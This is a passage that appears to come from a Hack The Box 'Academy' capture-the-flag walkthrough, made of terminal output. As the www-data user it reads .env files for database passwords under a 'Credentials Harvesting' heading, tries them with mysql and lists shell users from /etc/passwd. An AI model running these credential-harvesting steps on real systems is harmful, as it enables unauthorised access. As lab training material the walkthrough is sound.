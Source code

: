 ```
www-data@academy:/var/www$ ls -l /home/cry0l1t3/user.txt

-r--r----- 1 cry0l1t3 cry0l1t3 33 Jun 25 16:12 /home/cry0l1t3/user.txt
```

```
www-data@academy:/var/www$ cat /home/cry0l1t3/user.txt

cat: /home/cry0l1t3/user.txt: Permission denied ❌
```

```
www-data@academy:/var/www$ cat /etc/passwd | grep `whoami`

www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin ❌
```

**Credentials Harvesting**

```
www-data@academy:/var/www$ cat /var/www/html/academy/.env

[SNIP]

DB_CONNECTION=mysql
DB_HOST=127.0.0.1
DB_PORT=3306
DB_DATABASE=academy
DB_USERNAME=dev
DB_PASSWORD=mySup3rP4s5w0rd!!
```

```
www-data@academy:/var/www$ cat /var/www/html/htb-academy-dev-01/.env

[SNIP]

DB_CONNECTION=mysql
DB_HOST=127.0.0.1
DB_PORT=3306
DB_DATABASE=homestead
DB_USERNAME=homestead
DB_PASSWORD=secret
```

```
www-data@academy:/var/www$ mysql -h 127.0.0.1 -P 3306 -u dev -pmySup3rP4s5w0rd!!

ERROR 1045 (28000): Access denied for user 'dev'@'localhost' (using password: YES) ❌

www-data@academy:/var/www$ mysql -h 127.0.0.1 -P 3306 -u homestead -psecret

ERROR 1045 (28000): Access denied for user 'homestead'@'localhost' (using password: YES) ❌
```

```
www-data@academy:/var/www$ cat /etc/passwd | grep "sh$" | awk '{print $1}'

root
egre55
mrb3n
cry0l1t3
21y4d
ch4p
g0blin
```
